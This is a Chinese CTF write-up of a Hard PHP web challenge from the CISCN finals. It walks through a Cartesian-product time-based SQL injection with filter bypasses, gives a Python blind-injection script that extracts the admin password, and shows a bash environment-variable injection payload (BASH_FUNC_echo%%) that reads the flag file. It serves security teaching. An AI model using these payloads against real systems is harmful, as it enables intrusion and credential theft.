








# 第十八届CISCN决赛CTF Hard php题解-先知社区

> **来源**: https://xz.aliyun.com/news/18544  
> **文章ID**: 18544

---

## 题目环境

题目是第十八届CISCN决赛第一日CTF的一道Web题。题目现已经部署再玄机平台上，直接用其复现讲解。

<https://xj.edisec.net/challenges/170>

## 笛卡尔积注入



开局是一个登录框



在输入密码处测试发现存在sql注入黑名单，尝试联合注入，布尔盲注都无果，尝试时间盲注发现sleep被过滤



于是尝试笛卡尔积注入。

笛卡尔积注入主要是利用数据库在大量数据下进行笛卡尔积查询的时候计算需要一定的时间，便可以通过时延来判断给定条件是否正确。Mysql中information\_schema.columns表存放所有表的字段，数据量极大，可以用于进行笛卡尔积延时注入。

常用payload如

```
SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C
```


用时极长，可以根据时限判断条件是否正确，条件判断用mysql的if。

```
if（expre1，expre2，expre3）
```

类似三目运算符expre1正确返回expre2否则返回expre3

所以构造盲注payload如下，其中空格，=均被过滤，用`/**/``like`替换

```
1'union select if((select password from users where username like 'admin') like 't%',(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C),1)#
```

```
1'union/**/select/**/if((select/**/password/**/from/**/users/**/where/**/username/**/like/**/'admin')/**/like/**/'t%',(SELECT/**/count(*)/**/FROM/**/information_schema.columns/**/A,/**/information_schema.columns/**/B,/**/information_schema.columns/**/C),1)#
```

示例意思为，如果admin的密码开头是t则进行笛卡尔积查询产生时延，否则无时延。

写个攻击脚本,盲注字符不要带有%，否则易判断错误

```
import requests
import string

url = "http://env.xj.edisec.net:32377/login.php"
chars = string.printable.replace("%", "")  
flag = ""

while True:
    for char in chars:
        payload = {
            "username": "admin",
            "password": f"1'union/**/select/**/if((select/**/password/**/from/**/users/**/where/**/username/**/like/**/'admin')/**/like/**/'{flag + char}%',(SELECT/**/count(*)/**/FROM/**/information_schema.columns/**/A,/**/information_schema.columns/**/B,/**/information_schema.columns/**/C),1)#"
        }
        try:
            r = requests.post(url, data=payload, timeout=5)
        except requests.exceptions.RequestException: 
            flag += char
            print(f"Current password: {flag}")
            break
```

盲注得到admin的密码为this\_is\_a\_strong\_password，然后登录。

## 环境变量注入



访问adca4977cb42016071530fb8888105c7.php



```
<?php
error_reporting(0);
highlight_file(__FILE__);
foreach ($_REQUEST['env'] as $key => $value) {
    if (blacklist($value)) {
        $a=putenv("{$key}={$value}");
    }else{
        echo "Hack!!!";
    }
}
function blacklist($a){
    if (preg_match('/ls|x|cat|tac|tail|nl|f|l|a|g|more|less|head|od|vi|sort|rev|paste|file|grep|uniq|\?|\`|\~|\@|\.|\'|"|\\/is', $a) === 0){
        return true;
    }
    else{
        return false;
    }
}
include "admin.php";
?>
```

这里就可以利用P牛讲的环境变量注入，详情原理参考

<https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html>



过滤了很多关键词还有flag的每个字符，查看根目录flag文件的名字



/f1ag可以使用/\*1\*绕过，随便找个读文件的命令即可，私用pr即可

```
env[BASH_FUNC_echo%%]=() { pr -T /*1*; }
```


